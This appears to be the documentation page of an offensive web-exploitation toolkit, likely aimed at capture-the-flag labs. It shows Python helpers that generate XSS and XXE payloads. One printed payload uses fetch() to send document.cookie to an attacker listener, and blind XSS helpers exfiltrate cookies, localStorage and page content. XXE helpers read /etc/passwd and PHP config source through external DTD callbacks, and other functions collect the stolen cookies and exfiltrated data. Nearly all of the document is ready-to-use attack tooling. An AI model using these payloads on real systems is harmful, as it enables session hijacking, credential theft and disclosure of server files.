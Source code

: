 ## XSS Payloads (`utils/xss.py`)

Generate XSS payloads with automatic callback integration:

```python
from utils.xss import img_onerror, blind_xss, cookie_stealer, polyglot

# Quick test payload (img tag with onerror)
payload = img_onerror(f"http://{lhost}:8000")
# Returns: <img src=x onerror="fetch('http://10.10.14.5:8000/queue?cookie='+btoa(document.cookie))">

# Blind XSS with full data exfil
payload = blind_xss(f"http://{lhost}:8000", identifier="admin_panel")
# Sends: cookies, localStorage, URL, DOM content

# Polyglot (works in multiple contexts)
payload = polyglot(f"http://{lhost}:8000")

# Context-specific payloads
from utils.xss import context_specific
payload = context_specific(f"http://{lhost}:8000", context="attribute")
# Contexts: html, attribute, js, css

# Get stolen cookie
from utils.server_hooks import get_cookie
send_xss_payload(payload)
cookie = get_cookie(timeout=30)
```

## XXE Payloads (`utils/xxe.py`)

Generate XXE payloads for file reading and SSRF:

```python
from utils.xxe import quick_test, basic_file_read, php_filter_b64

# Quick test (creates DTD + payload automatically)
payload = quick_test(f"http://{lhost}:8000", "/etc/passwd")
# Writes DTD to payloads/xxe/xxe.dtd, returns XML payload

# Basic XXE (file content in response)
payload = basic_file_read("/etc/passwd")

# Read PHP source as base64
payload = php_filter_b64("/var/www/html/config.php")

# Format-specific XXE
from utils.xxe import svg_xxe, soap_xxe
svg_payload = svg_xxe(f"http://{lhost}:8000", "/etc/passwd")
soap_payload = soap_xxe(f"http://{lhost}:8000", "/etc/passwd")

# Get exfiltrated data
from utils.server_hooks import get_exfil
send_xxe_payload(payload)
data = get_exfil(timeout=30)
```

